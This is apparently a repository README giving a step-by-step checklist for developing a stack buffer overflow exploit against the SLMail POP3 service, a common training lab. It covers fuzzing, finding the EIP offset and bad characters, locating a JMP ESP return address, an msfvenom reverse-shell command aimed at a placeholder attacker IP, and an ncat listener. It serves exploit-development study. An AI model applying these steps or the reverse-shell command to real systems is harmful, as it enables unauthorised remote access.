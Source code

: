 # ExpDev

* Identify the vuln port (netstat -noa on target // nmap the target).
* Attach the procces to Immunity debugger and "Play" it on the target.
* Edit Fuzzer.py (IP address, port and what it sends in the socket - Ex. sLmail_pop3_pass_fuzzer.py in repo).
* Fuzz the target.
* Write a POC that replicates the crash (Ex. slmail_pop3_replicated_crash.py in repo).
* Locate those 4 A's that overwrite the EIP register.
* Send a unique string in order to identify the EIP offset. The size of this string is equal to the amount of bytes that crash the service. Use pattern_create in kali (Ex. pattern_create.rb -l 2700 --> place the output in buffer variable. See  	slmail_pop3_pattern_create.py in repo).
* Use pattern_offset.rb to discover the offset of these specific 4 bytes in the unique byte string and edit buffer variable (Ex. pattern_offset.rb -l 2700 -q 39694438. See slmail_pop3_pattern_offset.py
in repo).
* Locate space for the shellcode - a standart reverse shell payload requires about 350-400 bytes of space. Locate a convenient location to place the shellcode using the crash in Immunity debugger (Ex. C's in slmail crash are 90 bytes. You can increase the buffer length in order to make the shellcode fit. Ex. Increased buffer in slmail from 2700 to 3500. See slmail_pop3_locate_space.py in repo).
* Check for bad characters - an easy way to do this is to send all possible chars, from 0x00 to 0xff, as part of the buffer variable. See how these chars are dealt with by the app in memory dump of ESP register (Follow in dump - 01 02 03 etc..), after the crash (Ex. 0x00 - null byte is always bad. See slmail_pop3_bad_chars.py).
* Run the badchars check again and again till it doesnt trancate the values in memory (delete the relevnt chars before running the check in buffer, of course).
* Find a return address - using Mona.py in the Immunity debugger you should look for module that is not protected by DEP/ASLR and has a memory range that does not cotain bad characters.
Run "!mona modules" in Immunity to find one.
Run nasm_shell.rb in kali in order to find an opcode that is equivilent to JMP ESP command.
Search for this opcode in all sections of the .dll file that found in modules by this command in Immunity:
"!mona find -s "<OPCODE_IN_HEXA>" (Ex.\xff\xe4) -m <.DLL_FILE> (Ex. slmfc.dll)".
Choose one that doesnt contain bad chars (double check that inside the debugger - Ex. address like 0x5f4a358f).
* Edit the exploit and add this address instead of EIP (B's) place (See slmail_pop3_return_address.py in repo)
* Place a breakpoint in this address and check it actually reaches it.
* Generate a shellcode using MSFVENOM (msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKERS_IP> LPORT=<ATTACKERS_PORT> -f c -a x86 --platform windows -e x86/shikata_ga_nai -b "<BAD_CHARS>" (ex. "\x00\x0a\x0d")).
* Place this shellcode in the exploit POC and make sure to add NOP as padding for the decoder (See slmail_pop3_shellcode.py in repo). 
* Start a listener on attackers machine and get a shell (ncat -lvnp <LISTENING_PORT>).
